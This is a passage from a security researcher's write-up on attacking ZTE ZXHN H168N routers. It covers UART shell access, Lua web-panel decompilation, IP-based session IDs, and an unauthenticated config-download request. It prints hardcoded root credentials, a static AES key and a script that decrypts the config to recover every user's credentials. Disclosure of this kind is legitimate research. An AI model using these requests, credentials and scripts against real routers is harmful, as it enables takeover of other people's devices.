


# Finding 0click RCE's on two ZTE routers

This is a writeup on how i discovered Authentication bypasses leading to RCE affecting the `ZTE ZXHN H168N` and `ZXV10 H201L` series of routers, commonly distributed by many ISP's in the mid 2010's around Greece. It was found that through a chain of exploits hijacking of Adminisrator accounts could be achieved and lead to Remote Code Execution without any prior user interaction. 

In this blog post i will cover:
 - The inner processes of the mentioned devices
 - Reverse engineering methods
 - Exploitation steps
 - How persistance can be attained by a back-door exploit. 


## How it all started


The story stems from random research i was doing on [WiFi deauthentication frames](https://blog.spacehuhn.com/wifi-deauthentication-frame). I had decided to implement such a feature for the ESP8266 microcontroller myself from scratch.

I had been hitting dead ends and i could not get the deauthentication packets to work property, so i placed a bet that some sort of mitigation might have been implemented on the router i own and was testing on, since it's a relatively new model (i was wrong).

So i thought about trying to deauth another router i had, it was a `ZTE ZXHN H168N` running on firmware version `3.1` that i originally had borrowed from a friend but never got back to returning 😎.

After digging the router out of the bottom of my storage cabinet, I powered it on and booted it up. It spawned an access point and i tried to connect to it, however i had forgotten the password i had set for WPA2.

Now normally this would not be an issue since i could use the "reset" button to trigger a factory reset and connect with the credentials provided in the back, but the stickers were they are supposed to be printed were completelly worn-out.

Last time i had used it i was able to factory reset it and connect via the "WPS" button commonly found on older devices, but i did not own a device that supported WPS out of the box anymore, and even though i tried installing WPS on my linux laptop it was taking more time than i wanted to spend debugging it.

So i decided to hack it instead. And thus beggins the short but fun rabbit-hole.

# Round one: ZTE ZXHN H168N

Exploit and backdoor code: [https://github.com/TasosY2K/zte-router-0day-rce/tree/main/exploit/ZXHN-H168N](https://github.com/TasosY2K/zte-router-0day-rce/tree/main/exploit/ZXHN-H168N)

## Getting UART

As one would do with any IoT device i decided that my first goal would be looking into how i could pop a UART shell, so i can get a better image into how the device works and debug it. 

### What is UART??

If you are familiar with the [UART protocol](https://ece353.engr.wisc.edu/serial-interfaces/uart-basics/) feel free to skip this part, but i will briefly go over the fundamentals to teach anybody who's hearing it for the first time and to freshen up the memory for those who are not.

The core of UART communication is managed through two main lines:

 - `TX` (Transmit): Sends data out from the device.
 - `RX` (Receive): Receives incoming data.

Often, a common ground (`GND`) is also connected between devices. Some implementations may also use hardware flow control lines like `RTS` (Request To Send) and `CTS` (Clear To Send).


In UART both the transmitter and receiver must be configured to operate at the same `baud rate`. This rate defines how quickly information is sent over a communication channel, and for serial ports, it determines the `maximum number of bits transmitted per second`.

For UART communication, data is transmitted as `packets`. The link between the transmitter and receiver is responsible for assembling these serial packets and managing the physical hardware lines.


Each packet typically includes:
 - A start bit
 - A data frame 
 - A parity bit
 - One or more stop bits

The simple design and ease-of-use leads to almost any computer device to contain some UART functionality. You will come across it in embedded systems, microcontrollers, and computers and it is commonly used as a hardware communication protocol for device-to-device interactions.


*Example showing a single UART packet decoded in salae logic analyser, transmitting the string `hello\r\n`*.

For a serial UART connection to be established the following steps will take place:
 1. `Initialization`: Both devices are set up with matching configurations (baud rate, data bits, parity, and stop bits).

 2. `Start of Frame`: The sender transmits a start bit (logic 0) to signal the beginning of a data frame. The receiver detects this bit and synchronizes its clock accordingly.

 3. `Data Transmission`: The sender sends the data bits sequentially (e.g., sending the binary representation of a character). The receiver reads the bits based on the predetermined configuration.

 4. `Parity Bit`: If error-checking is enabled, a parity bit is added after the data bits. The receiver checks this bit to verify data integrity.

 5. `Stop Bits`: One or more stop bits are sent to indicate the end of the data frame, giving the receiver time to process the frame.

 6. `Data Processing and Repeat`: The receiver processes the received data, and the cycle repeats for each new frame.

In the IoT space UART is used for debugging purposes at the development period of numerous devices. It usually opens up a channel what allows the manufacturer to directly enter into the device's operating system by spawning a shell or an [RTOS](https://en.wikipedia.org/wiki/Real-time_operating_system), allowing them to develop the device's firmware and test hardware components. Depending on the functionality of the device, it is not uncommon to see manufacturers leaving the UART pins on the production ready boards even after the development period in order to save costs, since it would take time and effort to re-design and print them. It is also common to see the UART pins available on the device but disabled by hardware methods, however this can be usually bypassed to. As a reverse engineer finding UART ports left by the manufacturer is usually the first step to take on as it opens up a whole world of possibilities.

### Reconnaissance

After managing to find the model number (`Q78-ZXHNH168N`) i first searched for it at an [FCC database](https://fcc.report/FCC-ID/Q78-ZXHNH168N/4132351.pdf) mirror to see if i could spot any potential pins through the official images, no luck with that since the resolution was too low.


We can still deduct some information though:
 - What kind of chips are used
 - If any other and what kind of ports are available

So i proceeded to open up the router in order to reveal the motherboard and look for interesting pins myself.


A trained eye will immediately catch the four pin slots that clearly look like UART.


So i soldered some pins to them to have easy access and to be able to play around with their connection.

### Enumerating pinout

Now we need to figure our which pin is which in order to make the proper connections from the router to the computer.

There are two main ways to go about doing this:
 1. Look up the model's (or similar models) UART pinout online
 2. Manually enumerate TX and RX pins using a multimeter

For the devices mentioned on this post i was able to find pinouts online with the first method but i will also cover a brief introduction to how you can derive the UART pins without a diagram.

### Using a multimeter to find RX and TX

Before connecting to what might be a UART port, it's wise to use a multimeter to verify the pinout first or even confirm if it’s a UART at all. The fact that there are four pins doesn't automatically mean it's a UART, they could be intended for powering a daughter board or another purpose. The same could also be done with a logic analyzer or a multimeter but it is not necessary most of the times.


 1. Start by locating the ground (`GND`) pin. The method is to use your multimeter's `continuity` function. Connect one probe to the ground reference at the power input (like a barrel plug, USB port, or battery) and then test each of the four pins. The pin that shows continuity is your `GND` pin.

 2. Once you've identified the `GND` pin, the next step is to locate the `VCC` pin. Power on the device and set your multimeter to `voltage mode`. Attach the negative probe to the `GND` pin and then test the remaining pins with the positive probe. While more than one pin may show a voltage reading, you're looking for the one that consistently outputs a `steady voltage`, usually either `5V` or `3.3V`.

 3. When testing for the `VCC` pin, you might notice that one of the pins shows a `fluctuating voltage`. This usually happens because the pin is intermittently transmitting data. If you don't see any fluctuations right away, try power cycling the device—typically, the `TX` pin will start transmitting data during boot-up, and the pin with these fluctuations is most likely the `TX` pin.
 
 4. We now know the `GND`, `VCC`, and `TX` pins, and by process of elimination this means the last pin should be our `RX` pin.

### Getting a shell

In my case i looked up online and found UART pinout instructions for a very similar router model, `ZTE ZXHN H267A`, at a telecom forum thread, there i figured that ZTE could use the same pinout for other models and i was right.


I mapped the arduino pins to the router as follows starting from the square pin that indicated VCC:

```
Arduino => Router

VCC - 1 (not needed)
GND - (unamed)
RX  - C111
TX  - X4
```

I used my arduino as a USB => UART converter, as i didn't have one in handy at the time. That can be achieved by connecting the `RESET` pin to `GND`. Then i made the appropriate connections utilizing the pins i had soldered and i fired up `picocom` with `baudrate 115200`, which is a very common `baudrate` used for UART debugging, and got to it on the console. After making sure the connections are correct i boot up the router.


Looks like `DRAMC` is used. The bootlog is important for IoT hacking and can reveal alot of useful information, like in our case the kernel version of the device (`2.6.36`), even though i did not utilize it for much this time, never forget to pay attention to it after getting UART. Also any important device action is logged here, for example a WiFi client connecting to the device or a change in the main database, which is again really handy when debugging.


A login screen is used for accessing the device, after the boot sequence has been finished. Thankfully the `default hardcoded credentials` can be easily found on the internet, [on this github issue](https://github.com/threat9/routersploit/issues/654), commonly retrieved either by some insider of the ISP or by cracking the user hash found at `/etc/shadow` or in our case, reverse engineering the `cspd` binary to extract the encryption key of the main device config and decrypt it to find all device credentials (i will dive more into this later). So we can use those to get shell access.

```
FNNSD3zxhnh168nv31:Zxhnh168nv31
```


We can confirm that we got a root shell by accessing `/etc/shadow`, now that we have a root shell on the device itself, we can begin with the real hacking.

## Reverse engineering the web panel interface

First things first we see that we are inside BusyBox `v1.01`.

`BusyBox` is a software suite that combines many standard Unix utilities into a single, small executable. Often dubbed "The Swiss Army Knife of Embedded Linux," it’s designed to provide a minimalistic yet functional set of command-line tools, making it ideal for embedded systems or environments with limited resources. Here are some key points:

 - Consolidated Utilities: BusyBox includes common commands such as `ls`, `cp`, `mv`, `grep`, and many more, all in one binary.
 - Small Footprint: Its compact design is perfect for systems like routers, IoT devices, and rescue environments where storage and memory are at a premium.
 - Embedded Systems: Because of its minimal resource requirements, BusyBox is widely used in embedded Linux systems and lightweight distributions.
 - Open Source: Distributed under the GNU General Public License (GPL), it’s freely available and continuously maintained by a community of developers.

BusyBox essentially provides a versatile toolkit that allows for robust system functionality even on devices with very limited resources. That means that we are also limited in the number of tools we can use for hacking and rev/eng that are installed on the device.


The `help` command shows us all the available busybox utilities. There is quite a lot to work with, but it is always possible to download and use additional tools as long as the right architecture is used.


By accessing the `cpuinfo` file descriptor from `procfs` we see the processor and the used architecture which appears to be `MIPS 34k` in this case, `procfs` is really useful when testing on limited mebedded systems. The arch information will also come in handy later when we will try to develop a backdoor. Since `wget` and `tftp` is installed, in this part we could also download a more inclusive MIPS compiled busybox or more valuable binaries in general. Such examples can be found here [https://github.com/darkerego/mips-binaries](https://github.com/darkerego/mips-binaries). For this device i did not use any extra binary as `chmod` was not installed and i didn't bother to find a bypass to make a file executable during the exploitation process. But i did end up having to find a way later when developing the backdoor.


One very interesting binary found that is not part of busybox is `sendcmd`, After searching about it on the internet and also by cross-refrencing the functionality of the web-ui and the available functionality on the binary iteself i come to the conclusion that this is the main utility that is resposible for managing the router's main database and configuring the device in general.

Iv'e compiled the following list of some useful functionality of the utility.

```
# Get user info for different services
sendcmd 1 DB all
sendcmd 1 DB p DevAuthInfo 
sendcmd 1 DB p TelnetCfg
sendcmd 1 DB p WANC
sendcmd 1 DB p MgtServer
sendcmd 1 DB p VoIPSIPLine all
sendcmd 1 DB p FTPUser

# Enable FTP
sendcmd 1 DB set FTPUser 0 Location /
sendcmd 1 DB save

sendcmd 1 DB set FTPServerCfg 0 FtpEnable 1
sendcmd 1 DB set FTPUser 1 ViewName IGD.FTPUSER1
sendcmd 1 DB set FTPUser 1 Username root
sendcmd 1 DB set FTPUser 1 Password C.O.R.E.
sendcmd 1 DB set FTPUser 1 Location /
sendcmd 1 DB set FTPUser 1 UserRight 1
sendcmd 1 DB save

# Enable WAN
sendcmd 1 DB set WANC 1 IsNAT 0
sendcmd 1 DB set WANC 1 IsForward 0
sendcmd 1 DB set WANC 1 IsDefGW 0
sendcmd 1 DB save
```

By doing a process dump we can see the services that are up and running using the `sendcmd` utility.


We can see that `dnsmasq`, `sshd`, `upnpd`, `telnetd`, `httpd` and `cspd` are running. `httpd` which is the most interesting to us, so by doing some searching around the filesystem we find the `/home/httpd` directory which contains the `lua` source code for the web interface which the `httpd` process serves. Another interesting vector for research is `cspd` which is also used for configuring ZTE routers and `upnpd`. But on this post we will focus on exploiting the HTTP interface since it's the only interface where it's really common to have exposed on the public internet thus increasing the impact of it's exploitation.


As you can see there are a lot of `lua` files, but all of them are compiled bytecode, so in this case the best solution would be to somehow exfiltrate them and decompile them locally in order to analyze them and look for bugs.

The way i managed to do this is was by writing a `lua` script to encode the contents in hex and join all files from `/home/httpd` into one file alongside their name and directory recursively, then exfiltrate that file by using the `tftp` client that was thankfully pre-installed with the `busybox`, by hosting a `tftp` server on my laptop and uploading the joined file there. Then i wrote a `python` script to decode and recursively split these files in order to re-create the directory structure on my machine.

The script used to recursivelly join lua files: 
```lua
local lfs = require("lfs")

local function toHex(str)
    return (str:gsub(".", function(c)
        return string.format("%02x", string.byte(c))
    end))
end

local function writeFileWithMetadata(outputFile, filePath, content)
    local hexContent = toHex(content)

    outputFile:write("###FILE_START###\n")
    outputFile:write("FILE_PATH: " .. filePath .. "\n")
    outputFile:write("###CONTENT_START###\n")
    outputFile:write(hexContent)
    outputFile:write("\n###CONTENT_END###\n")
end

local function joinFilesRecursively(folderPath, outputFile)
    folderPath = folderPath:gsub("[\\/]+$", "")

    for file in lfs.dir(folderPath) do
        if file ~= "." and file ~= ".." then
            local filePath = folderPath .. "/" .. file
            local attributes = lfs.attributes(filePath)

            if attributes and attributes.mode == "file" then
                local inputFile = io.open(filePath, "rb")
                if inputFile then
                    local content = inputFile:read("*all")
                    inputFile:close()

                    writeFileWithMetadata(outputFile, filePath, content)
                else
                    print("Error opening file: " .. filePath)
                end

            elseif attributes and attributes.mode == "directory" then
                joinFilesRecursively(filePath, outputFile)
            end
        end
    end
end

local folderToJoin = arg[1]
local outputFilePath = arg[2]

if not folderToJoin or not outputFilePath then
    print("Usage: lua script.lua <folder_path> <output_file>")
    os.exit(1)
end

local outputFile = io.open(outputFilePath, "w")
if outputFile then
    joinFilesRecursively(folderToJoin, outputFile)
    outputFile:close()
    print("Files joined into " .. outputFilePath)
else
    print("Failed to open output file.")
end
```

Python script to split the files back to original structure:
```python
import os

def from_hex(hex_string):
    return bytes.fromhex(hex_string).decode('latin1')

def sanitize_path(file_path):
    safe_path = os.path.normpath(file_path)
    
    safe_path = safe_path.lstrip(os.sep)

    if safe_path.startswith(".."):
        safe_path = safe_path.replace("..", "")

    return safe_path

def split_files(joined_file_path, output_folder):
    with open(joined_file_path, "r") as joined_file:
        content = joined_file.read()

    file_sections = content.split("###FILE_START###")

    for section in file_sections:
        if not section.strip():
            continue

        try:
            file_path_line, file_content = section.split("###CONTENT_START###")
            file_path = file_path_line.strip().replace("FILE_PATH: ", "").strip()

            sanitized_file_path = sanitize_path(file_path)

            output_path = os.path.join(output_folder, sanitized_file_path)

            hex_content = file_content.split("###CONTENT_END###")[0].strip()

            decoded_content = from_hex(hex_content)

            os.makedirs(os.path.dirname(output_path), exist_ok=True)

            with open(output_path, "wb") as output_file:
                output_file.write(decoded_content.encode('latin1'))

            print(f"Extracted: {output_path}")

        except ValueError:
            print("Error processing section, skipping...")

joined_file = "out"
output_folder = "output_split_folder"

split_files(joined_file, output_folder)
```

File-tree of the recovered files:
```
tree                                                                                                                                                                                                                             !10013
.
└── home
    └── httpd
        ├── cgilua
        │   ├── loader.lua
        │   ├── lp.lua
        │   ├── post.lua
        │   ├── readuntil.lua
        │   └── urlcode.lua
        ├── cgilua.lua
        ├── common_page
        │   ├── accountManag_lua.lua
        │   ├── Alg_lua.lua
        │   ├── commonpageFrame.lp
        │   ├── commonpageFrame.lua
        │   ├── comQuery_AccessDevice_lua.lua
[SNIP]
```

Now that we have the lua bytecode locally we can use [unluac](https://github.com/HansWessels/unluac) to decompile the bytecode to readable lua in order to better understand how the web panel works.

I had to write a `python` wrapper for it in order to recursively decompile all the files:
```python
import os
import subprocess
import sys

def decompile_file(unluac_path, file_path):
    if file_path.endswith('.lua'):
        output_file = file_path.replace('.lua', '.decomp.lua')
    elif file_path.endswith('.lp'):
        output_file = file_path.replace('.lp', '.decomp.lp')
    else:
        print(f"Unsupported file format: {file_path}")
        return

    print(f"Decompiling {file_path} to {output_file}")

    try:
        with open(output_file, 'w') as output:
            subprocess.run(['java', '-jar', unluac_path, file_path], stdout=output, check=True)
        print(f"Successfully decompiled {file_path} to {output_file}")
    except subprocess.CalledProcessError as e:
        print(f"Error decompiling {file_path}: {e}")
    except Exception as e:
        print(f"An unexpected error occurred: {e}")

def decompile_directory(unluac_path, directory):
    for root, _, files in os.walk(directory):
        for file in files:
            if file.endswith('.lua') or file.endswith('.lp'):
                file_path = os.path.join(root, file)
                decompile_file(unluac_path, file_path)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python decompile_lua.py <path_to_unluac.jar> <directory>")
        sys.exit(1)

    unluac_path = sys.argv[1]
    directory = sys.argv[2]

    if not os.path.isfile(unluac_path):
        print(f"Error: {unluac_path} does not exist.")
        sys.exit(1)

    if not os.path.isdir(directory):
        print(f"Error: {directory} does not exist.")
        sys.exit(1)

    decompile_directory(unluac_path, directory)
```

File-tree containing decompiled lua files:
```
tree                                                                                                                                                                                                                             !10013
.
└── home
    └── httpd
        ├── cgilua
        │   ├── loader.decomp.lua
        │   ├── loader.lua
        │   ├── lp.decomp.lua
        │   ├── lp.lua
        │   ├── post.decomp.lua
        │   ├── post.lua
        │   ├── readuntil.decomp.lua
        │   ├── readuntil.lua
        │   ├── urlcode.decomp.lua
        │   └── urlcode.lua
        ├── cgilua.decomp.lua
        ├── cgilua.lua
        ├── common_page
        │   ├── accountManag_lua.decomp.lua
        │   ├── accountManag_lua.lua
        │   ├── Alg_lua.decomp.lua
        │   ├── Alg_lua.lua
        │   ├── commonpageFrame.decomp.lp
        │   ├── commonpageFrame.decomp.lua
        │   ├── commonpageFrame.lp
        │   ├── commonpageFrame.lua
        │   ├── comQuery_AccessDevice_lua.decomp.lua
        │   ├── comQuery_AccessDevice_lua.lua
...
```

Now that we have the decompiled `lua` to human-readable source code we can begin to analyze for vulnerabilities.

Since we don't have a user/password to log-in to the web interface yet we can use the `sendcmd` utility to retrieve all user credentials, and pick the `super-user` to log-in.

## Session fixation by spoofable session ID's

By examining the file at `home/httpd/index.lua` and specifically the `initsession` we can see that the session ID's are generated based only on the client's IP.

```lua
local initsession = function()
  local sess_id = cgilua.remote_addr
  if sess_id == nil or sess_id == "" then
    g_logger:warn("sess_id error")
    return
  end
  g_logger:debug("sess_id = " .. sess_id)
  setsessiondir(_G.CGILUA_TMP)
  local timeout = 300
  local t = cmapi.getinst("OBJ_USERIF_ID", "")
  if t.IF_ERRORID == 0 then
    timeout = tonumber(t.Timeout) * 60
  end
  setsessiontimeout(timeout)
  session_init(sess_id)
  return sess_id
end
```

We can verify this by checking out the directory at `/var/lua_session`.


And by checking the contents of a session files we can confirm that once again.


By not introducing a random part to the session ID's the possibility of IP spoofing gives an attacker a way to hijack active sessions, in the edge case where the attacker is located within the local network of the router and a user is logged-in to the web interface, ARP spoofing can be used to trick the router into allowing unauthorized login if the IP of the active user is used.

Also the use of `lua_session` allows for RCE if arbitrary file write is present due to the weakness described in [CVE-2024-45416](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45416)

## Authentication bypass via unauthenticated access to device config

After proxying requests and testing out different stuff i noticed that authentication is not enforced for the user config download endpoint.


```
POST /getpage.lua?pid=101&nextpage=ManagDiag_UsrCfgMgr_t.lp HTTP/1.1
Host: 192.168.1.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------25853724551472601545982946443
Content-Length: 173
Origin: http://192.168.1.254
Connection: keep-alive
Referer: http://192.168.1.254/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------25853724551472601545982946443
Content-Disposition: form-data; name="config"


-----------------------------25853724551472601545982946443--
```

By sending a request like the example we can leak the device config even if we are not logged-in. The config is encrypted but is possible to decrypt it. My assumption is that this could be a backdoor functionality left intentionally by the vendor, as we will discover that a similar bug is present in other ZTE devices too.

### Decrypting the device config

We can use this tool [https://github.com/mkst/zte-config-utility](https://github.com/mkst/zte-config-utility) to decrypt the config and if the key for the model is found we can get an xml file containing all the users credentials, meaning we can log into the interface without knowing a user!


This vulnerability is key to complete our 0click chain. Even though the decryption key (`GrWM3Hz&LTvz&f^9`) has been found and the logic has been implemented by others due to how similar the implementation is on a big number of ZTE router models, i will explain the original process of how the master decryption key can be extracted from the `cspd` binary and used to decrypt the device config to retrieve the XML file database containing all device settings and credentials.

#### Device config format


Here i have opened the encrypted config in a hex editor so you can see the raw format, bellow i have generated a diagram after disection that makes understanding of the proprietary format clearer.

```sql
+================== 0x00 ==================+
| 1st Version Header (0x14 bytes)         |
|   - 4 magic values (16 bytes)           |
|   - 1 offset field (4 bytes)            |
|-----------------------------------------|
|            ... possible gap ...         |
|-----------------------------------------|
| 2nd Version Header (0x2C bytes)         |
|   - 11 x 32-bit words                   |
|   - last word is offset to 3rd header   |
|-----------------------------------------|
|            ... possible gap ...         |
|-----------------------------------------|
| 3rd Version Header (0x18 bytes)         |
|   - 2 x 16-bit + 5 x 32-bit             |
|   - includes "signed_cfg_size"          |
+================== 0x80 ==================+
| Signature Header (0x0C bytes)           |
|   - magic 0x04030201                    |
|   - ??? field                           |
|   - signature length                    |
|-----------------------------------------|
| Signature (signature_length bytes)      |
+-----------------------------------------+
| Encryption Header #1 (0x3C bytes)       |
|   - magic 0x01020304                    |
|   - encryption type (0/1/2)             |
|   - CRC fields, etc.                    |
+-----------------------------------------+
| If enc_type == 1 or 2:                  |
|   <AES-chunked data>                    |
|     AES Chunk Header (12 bytes)         |
|       [0]: ???                          |
|       [1]: encrypted chunk size         |
|       [2]: marker (0 = end)             |
|     Encrypted bytes (length above)      |
|   ... possibly multiple chunks ...      |
+-----------------------------------------+
| If enc_type == 2:                       |
|   Encryption Header #2 (0x3C bytes)     |
|   (again magic 0x01020304)              |
|   -> typically leads to compression     |
+-----------------------------------------+
| Zlib-Compressed Chunked Data            |
|   Compression Chunk Header (12 bytes)   |
|     [0]: uncompressed size              |
|     [1]: compressed size                |
|     [2]: marker (0 = end)               |
|   compressed bytes (length above)       |
| ... possibly multiple chunks ...        |
+-----------------------------------------+
| Plaintext (decompressed) configuration  |
| (this portion is only seen after the    |
| script finishes AES decrypt + zlib)     |
+=========================================+
```

First a check is made for an `encryption header` that indicates whether AES encryption is used. If AES is required (`encryption type 1 or 2`), it file is read in chunks, each chunk having a small `12‐byte header` (with length and an end marker). These encrypted chunks are accumulated into memory and AES in ECB mode with a 16‐byte key (padded or truncated) is used to decrypt them all at once. If encryption type is `2`, a `second encryption header` afterward is read, which usually indicates that the data is now just compressed. If encryption type is `0` no encryption is actually used. Finally, the data can be decompressed in `zlib` chunks and written into plaintext. For our config `encryption type 2` is used.

Decription script:
```python
import argparse
import struct
import zlib
from io import BytesIO
from os import stat
from Crypto.Cipher import AES


def _read_exactly(fd, size, desc='data'):
    """Reads exactly `size` bytes from file-like `fd`. Returns the bytes or None on failure."""
    chunk = fd.read(size)
    if len(chunk) != size:
        print(f'ERROR: failed to read {desc}')
        return None
    return chunk


def _read_struct(fd, fmt, desc='struct'):
    """Reads a struct (defined by `fmt`) from `fd`, returns tuple or None on failure."""
    size = struct.calcsize(fmt)
    data = _read_exactly(fd, size, desc)
    if data is None:
        return None
    return struct.unpack(fmt, data)


def read_aes_data(fd_in, key):
    """Reads AES-encrypted data in chunked form. Decrypts all at once using AES ECB."""
    encrypted_data = b''
    while True:
        # Each AES chunk has a 12-byte header: (unknown, chunk_length, marker)
        aes_hdr = _read_struct(fd_in, '>3I', desc='AES chunk header')
        if aes_hdr is None:
            return None
        _, chunk_len, marker = aes_hdr
        print('AES chunk length:             ', hex(chunk_len))

        chunk = _read_exactly(fd_in, chunk_len, desc='AES chunk data')
        if chunk is None:
            return None

        encrypted_data += chunk
        if marker == 0:
            break

    cipher = AES.new(key.ljust(16, b'\0')[:16], AES.MODE_ECB)
    fd_out = BytesIO()
    fd_out.write(cipher.decrypt(encrypted_data))
    fd_out.seek(0)
    return fd_out


def read_compressed_data(fd_in, enc_header):
    """Reads zlib-compressed data in chunked form, validates CRC."""
    print('encryption header CRC32:       0x{:08X}'.format(enc_header[6]))
    hdr_crc = zlib.crc32(struct.pack('>6I', *enc_header[:6]))
    if enc_header[6] != hdr_crc:
        print("ERROR: encryption header CRC32 doesn't match")
        return None

    total_crc = 0
    fd_out = BytesIO()

    while True:
        # Each compression chunk has a 12-byte header: (uncompressed_len, compressed_len, marker)
        comp_hdr = _read_struct(fd_in, '>3I', desc='compression chunk header')
        if comp_hdr is None:
            return None
        uncompr_len, compr_len, marker = comp_hdr
        print('compressed length:            ', hex(compr_len))
        print('uncompressed length:          ', hex(uncompr_len))

        chunk = _read_exactly(fd_in, compr_len, desc='compression chunk data')
        if chunk is None:
            return None

        total_crc = zlib.crc32(chunk, total_crc)
        uncompressed = zlib.decompress(chunk)
        if len(uncompressed) != uncompr_len:
            print('ERROR: wrong length of uncompressed data')
            return None

        fd_out.write(uncompressed)
        if marker == 0:
            break

    print('compressed data CRC32:         0x{:08X}'.format(enc_header[5]))
    if enc_header[5] != total_crc:
        print("ERROR: compressed data CRC32 doesn't match")
        return None

    fd_out.seek(0)
    return fd_out


def read_config(fd_in, fd_out, key):
    """Reads and decodes the configuration file from ZTE routers."""
    # -- First version header (20 bytes) ----------------------------------
    ver_header_1 = _read_struct(fd_in, '>5I', desc='1st version header')
    if ver_header_1 is None:
        return
    print('first version header magic:   ', ', '.join(f'0x{x:08X}' for x in ver_header_1[:4]))
    if ver_header_1[:4] != (0x99999999, 0x44444444, 0x55555555, 0xAAAAAAAA):
        print('ERROR: expected magic is 0x99999999, 0x44444444, 0x55555555, 0xAAAAAAAA')

    # fifth element is added to 0x14 to get second version header offset
    ver_header_2_offset = 0x14 + ver_header_1[4]
    print('second version header offset: ', hex(ver_header_2_offset))

    fd_in.seek(ver_header_2_offset)
    ver_header_2 = _read_struct(fd_in, '>11I', desc='2nd version header')
    if ver_header_2 is None:
        return
    ver_header_3_offset = ver_header_2[10]
    print('third version header offset:  ', hex(ver_header_3_offset))

    fd_in.seek(ver_header_3_offset)
    ver_header_3 = _read_struct(fd_in, '>2H5I', desc='3rd version header')
    if ver_header_3 is None:
        return
    signed_cfg_size = ver_header_3[3]
    print('signed config size:           ', hex(signed_cfg_size))

    # Validate config size vs. file size
    file_size = stat(fd_in.name).st_size
    if signed_cfg_size != file_size - 0x80:
        print(f"ERROR: config size (0x{signed_cfg_size:x} + 0x80) doesn't match real file size (0x{file_size:x})")

    # -- Signature header & signature -------------------------------------
    fd_in.seek(0x80)
    sign_header = _read_struct(fd_in, '>3I', desc='signature header')
    if sign_header is None:
        return
    print('signature header magic:        0x{:08X}'.format(sign_header[0]))
    if sign_header[0] != 0x04030201:
        print('ERROR: expected magic is 0x04030201')
        return

    sign_length = sign_header[2]
    print('signature length:             ', sign_length)

    signature = _read_exactly(fd_in, sign_length, desc='signature')
    if signature is None:
        return
    print('signature:                    ', signature.decode(errors='replace'))

    # -- Encryption header #1 ---------------------------------------------
    enc_header_raw = _read_exactly(fd_in, 0x3C, desc='encryption header')
    if enc_header_raw is None:
        return
    encryption_header = struct.unpack('>15I', enc_header_raw)
    print('encryption header magic:       0x{:08X}'.format(encryption_header[0]))
    if encryption_header[0] != 0x01020304:
        print('ERROR: expected magic is 0x01020304')
        return

    enc_type = encryption_header[1]
    print('encryption type:              ', enc_type)

    # -- AES decryption if enc_type in [1, 2] -----------------------------
    if enc_type in (1, 2):
        if not key:
            print("ERROR: no AES key specified. Use --key '...'")
            return
        fd_in = read_aes_data(fd_in, key)
        if fd_in is None:
            return

    # If enc_type == 2, read another encryption header (commonly leads to compression)
    if enc_type == 2:
        enc_header_raw = _read_exactly(fd_in, 0x3C, desc='second encryption header')
        if enc_header_raw is None:
            return
        encryption_header = struct.unpack('>15I', enc_header_raw)
        print('encryption header magic:       0x{:08X}'.format(encryption_header[0]))
        if encryption_header[0] != 0x01020304:
            print('ERROR: expected magic is 0x01020304 - likely wrong AES key')
            return
        enc_type = 0  # Next step: compression

    # -- Decompress if enc_type == 0 --------------------------------------
    if enc_type == 0:
        fd_in = read_compressed_data(fd_in, encryption_header)
        if fd_in is None:
            return

    # -- Finally, write out decoded data ----------------------------------
    fd_out.write(fd_in.read())


def main():
    parser = argparse.ArgumentParser(
        description='Decode configuration file (config.bin) from ZTE routers'
    )
    parser.add_argument('infile', type=argparse.FileType('rb'), help='Encoded configuration file')
    parser.add_argument('outfile', type=argparse.FileType('wb'), help='Output file')
    parser.add_argument('--key', type=lambda x: x.encode(), default=b'',
                        help="Key for AES encryption")
    args = parser.parse_args()

    read_config(args.infile, args.outfile, args.key)


if __name__ == '__main__':
    main()
```

I have written this streamlined script by practically stealing the code from `zte-config-util` to show the decryption process. We can simply run it and provide it with a valid `encryption key`, `input file` and `output file`. In this example i used the encryption key `GrWM3Hz&LTvz&f^9` detected from `zte-config-util` but on the following section i will showcase how to manually extract the master key from the device. This script will work for any of the encryption types that have been documented for ZTE routers in general.


#### Extracting the master encryption key from cspd

I used IDA pro to decompile the MIPS binary found at `/bin/cspd`. As i mentioned earlier this executable is responsible for handling most of the logic related to the configuration of the device, so it is safe to assume that it could contain keys or sensitive information in general.


After browsing through the control flow of the program i noticed that the function `CspDBInitPdtInterface` contains the same static key that was found by `zte-config-utility` when i tried it with the leaked device config file. 


